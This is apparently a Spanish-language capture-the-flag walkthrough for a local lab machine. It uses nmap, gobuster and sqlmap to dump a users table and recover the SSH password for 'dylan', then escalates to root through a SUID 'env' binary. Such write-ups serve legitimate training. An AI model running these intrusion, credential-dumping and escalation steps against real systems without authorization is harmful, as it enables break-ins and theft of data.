

Haremos un escaneo de la ip para ver que puertos están abiertos y que servicios tiene asociados a ellos.
```
sudo nmap -sV -sC --min-rate 7000 -p- -Pn 172.17.0.2 -oN escaneo
```


Al ver que tiene el puerto 80 abierto, entonces iremos al navegador y descubriremos el contenido de este.


Vemos que contiene un login, así que vamos a hacer un fuzzing de este para ver si podemos encontrar algo que nos facilite la entrada a este.
```
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -r --no-error -b 404,403 -x txt,html,php
```


Vemos que no nos muestra nada, así que vamos a intentar realizar un inyección sql.
```
sqlmap -u http://172.17.0.2 --forms -dbs --batch
```


Vemos que con estos párametros hemos obtenido las bases de datos. Ahora intentaremos sacar las tablas.
```
sqlmap -u http://172.17.0.2 --forms -D register --tables --batch
```


Vemos que hemos obtenido las tablas de la base de tatos register, así que vamos a mostrar su contenido.
```
sqlmap -u http://172.17.0.2 --forms -D register -T users --dump --batch
```


Vemos que ya tenemos el usuario `dylan` con la contraseña `KJSDFG789FGSDF78`. Estos los vamos a introducir al login para comprobar que coincide.


Una vez vemos que todo coincide, vamos a intentar por ssh con estas credenciales.
```
ssh dylan@172.17.0.2
password: KJSDFG789FGSDF78
```


Una vez estamos dentro, vamos a intentar conseguir los privilegios de administrador.
```
find / -perm -u=s -type f 2>/dev/null
```


Vemos que el binario env, tiene permisos de administrador, así que lo vamos a explotar para escalar a root.
```
/usr/bin/env /bin/bash -p
```
